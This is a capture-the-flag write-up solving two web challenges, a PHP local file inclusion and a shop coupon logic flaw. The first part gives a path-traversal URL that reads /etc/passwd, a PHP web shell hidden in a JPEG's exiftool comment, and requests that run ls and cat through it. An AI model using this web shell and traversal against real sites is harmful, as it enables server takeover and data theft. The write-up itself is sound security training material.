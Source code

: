 # Web

## Local Fun Inclusion

**Challenge**

"Recently i learned how to code in PHP. There are cool tutorials for file uploads around! Imgur Memes have no chance vs. my cool image sharing website!

Check it out at: http://lfi.hax1.allesctf.net:8081/"


**Solution**

**Information Gathering:**
The website only allows uploading image files. 
When hitting the **Submit** button without choosing an image, the URL contains a new request `site=upload.php`.
This is a first hint for a **Local File Inclusion** vulnerability. To verify this assumption call the following URL: 

> http://lfi.hax1.allesctf.net:8081/index.php?site=/../../../etc/passwd

We receive the content of **/etc/passed** 

Unfortunately we can't call  

> http://lfi.hax1.allesctf.net:8081/index.php?site=flag.txt

 to get the flag. We probably need a way to read the directories in order to find out what we're looking for.

The page tells you the storage location when uploading an image. This can be used to upload our **own php** code which can be executed with the **Local File Inclusion** vulnerability.
Unfortunately, uploading php files is forbidden by the server. We need an image file with the correct file extension and magic number. Hence, we have to fool the server, by uploading an image file containing php code.

**Exploit Image**:
To generate an empty image we can use the tool **convert**:

> $ convert -size 32x32 xc:white empty.jpg

Now adding your **own php code** to the image comments with **exiftool**:

> $ exiftool -Comment="\<?php echo shell_exec($_GET['cmd']); ?\>" empty.jpg

(I needed to add **$_GET** manually with vim after executing this command, as it has been removed)

This simple php code `<?php echo shell_exec($_GET['cmd']); ?>` only takes a **GET-Parameter** `cmd` and executes the value as a command. Our goal is to upload this image and execute it with `[BaseURL]/index.php/site=[ImageLocation]&cmd=[arbitraryShellCommand]`. With this approach we can pass arbitrary shell commands, like `ls` to read the directories, or `cat` to read file content.

So we upload this new image and getting the corresponding file location.
Now take the URL and use **Burp** to craft our different requests:
Activate the **Burp proxy** and do a request like `lfi.hax1.allesctf.net:8081/index.php?site=`.
The **Burp proxy** will intercept this request and we can send it to the **Burp Repeater**.

Now just append the file location the the **GET-Request** in the **Burp Repeater**.
The following **GET**-Request will list the files of the current direcotry in the response (Keep in mind that the upload location is different for every upload):
> GET /index.php?site=uploads/a2e4822a98337283e39f7b60acf85ec9_1.jpg&cmd=ls

![](writeupfiles/ListFiles.png)

We can see the `flag.php` file, so we are one step away from the flag. By doing another **GET**-Request we can print the content of this file and receive the flag:

> GET /index.php?site=uploads/a2e4822a98337283e39f7b60acf85ec9_1.jpg&cmd=cat%20flag.php

![](writeupfiles/Flag.png)

Flag: **CSCG{G3tting\_RCE\_0n\_w3b\_is\_alw4ys\_cool}**

## StayWoke Shop

**Challenge**

"Are you missing some essential items that were sold out in your local supermarket? You can easily stock up on these in my shop:
http://staywoke.hax1.allesctf.net/"

**Solution**

The Challenge is a web shop, which offers different products for 1€ each. 
These can be added to the shopping cart. In addition, we receive a 20% discount coupon through a scrolling news text (**I<3CORONA**). 

So let's search for a weak point. The coupon code seems to be a good starting point. 
Lets start burp and try to play around with the post and get requests of the shop.
My first thought was posting the same coupon multple times to the server, but this didnt change my wallet ballance or anything else.

While playing around with the shop i relized that the discount amount of the coupon was calculates from the current cart balance.
If you have a shopping card with a sum of product cost of 10€, and you use the discount coupon, the "product" **"coupon"** is added to you card.
This product now has costs **"-2€"**. If we remove now the products from our current cart, this amount remains unchanged.
This allows us to buy any of these products. 
Unfortunately buying one of these Products does not give us the flag.
Also the cart is limited to an amount of 10 products so we cant buy all at once.

So lets keep looking for something odd.

While looking at the intercepted requests in burp i relized that the products are indexed with numbers.
I added the product get-request to the repeater and tried the different numbers to see if there is any hidden product.
And yes, there is a product "flag" at the index 1 (GET /products/1 HTTP/1.1), which costs 1337€:

![](writeupfiles/flagProduct.png)

The rest is pretty easy.
I intercepted a product request of an arbitrary product with burp and changed the requested product index to 1.
Now we have one flag product in our cart.
The next step is adding 10 of these flag products to the cart and use the coupon.
With the coupon we now have 20% of the current costs as a negative value in the cart.
Remove the flags until the balance is high enough to buy a flag.
Now only hit the buy-botton while using the payment option "w0kecoint" with an arbitrary account number.

This will lead us to the order conformation which show us the flag: **CSCG{c00l\_k1ds\_st4y\_@\_/home/}**


To avoid this security issue the discount has to be calculated everytime the cart has changed.
